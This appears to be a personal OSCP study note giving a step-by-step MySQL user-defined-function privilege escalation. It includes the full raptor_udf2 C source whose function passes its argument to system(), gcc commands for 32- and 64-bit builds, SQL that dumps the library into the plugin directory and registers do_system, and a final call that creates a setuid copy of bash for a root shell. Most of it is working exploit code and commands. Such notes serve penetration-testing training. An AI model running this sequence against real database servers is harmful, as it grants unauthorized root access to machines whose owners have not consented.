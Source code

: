 OSCP Book pg 781


[https://www.exploit-db.com/exploits/1518](https://www.exploit-db.com/exploits/1518)

```bash - kali
sudo apt update && sudo apt install default-libmysqlclient-dev
```

```bash - kali
mousepad raptor_udf2.c
```

**raptor_udf2.c**
```c
#include <stdio.h>
#include <stdlib.h>
 
enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};
 
typedef struct st_udf_args {
        unsigned int arg_count; // number of arguments
        enum Item_result *arg_type; // pointer to item_result
        char **args; // pointer to arguments
        unsigned long *lengths; // length of string args
        char *maybe_null; // 1 for maybe_null args
} UDF_ARGS;
 
typedef struct st_udf_init {
        char maybe_null; // 1 if func can return NULL
        unsigned int decimals; // for real functions
        unsigned long max_length; // for string functions
        char *ptr; // free ptr for func data
        char const_item; // 0 if result is constant
} UDF_INIT;
 
int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error) {
        if (args->arg_count != 1) {
                return(0);
        }
        system(args->args[0]);
        return(0);
}
 
char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message) {
        return(0);
}
```

Transfer the above c file to target.

![[Python#Server]]
IF TARGET IS 64 bit version of debian, we need add -fPIC to the gcc command:

```bash - kali
gcc -g -c raptor_udf2.c -fPIC
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

---
IF TARGET IS 32 bit, remember to add -m32:
```bash - kali
gcc -g -c raptor_udf2.c -fPIC -m32
```

```bash - kali
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc -m32
```
---
Transfer the files over the target.
[[Python#Server]]

Should have 3 files, like so:


Now log in locally:
```bash - kali
mysql -h localhost -u root -p
```

```sql - target
show databases;
```

```sql - target
use <DATABASE>;
```

The first step in this process is to discover where this installation of MySQL stores its UDFs. 

```sql - target
show variables like 'plugin_dir';
```


In this case, the directory is **/usr/lib/mysql/plugin/**. We'll use this directory name in the steps that follow.

We must also determine whether the database has been misconfigured to allow insecure handling of files.

```sql - target
SHOW VARIABLES LIKE "secure_file_priv";
```


At this point, all elements are in place to exploit this misconfiguration and obtain a root shell.

==Pay attention to the directories below, and where your files are:==

==/tmp/Tools/ vs /tmp/ vs /var/www/==

```sql - target
create table foo(line blob);
```

```SQL
insert into foo values(load_file('/<PATH_TO_FILE>/raptor_udf2.so'));
```

```SQL
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
```


if the /usr/lib/mysql/plugin directory give you error, try: 

```SQL
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
```

```SQL
create function do_system returns integer soname 'raptor_udf2.so';
```

If you get `MySQL Error “file too short”`:  https://emarcel.com/mysql-error-when-creating-function/

Turned out that “SELECT … INTO DUMPFILE” clause did not write a library properly into plugins’ directory in “/usr/lib/mysql/plugin/” (the file size is 1)

```
\! cp raptor_udf2.so /usr/lib/mysql/plugin/
```

```
\! ls -lah /usr/lib/mysql/plugin
```

Now we should see the filesize of raptor_udf2.so as something other than 1.

```SQL
select * from mysql.func;
```

| name | ret |  dl | type |
| ---| --- | --- | --- |  
| do_system | 2 |  raptor_udf2.so | function |

```SQL
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
```


```SQL
exit
```

```bash
/tmp/rootbash -p
```


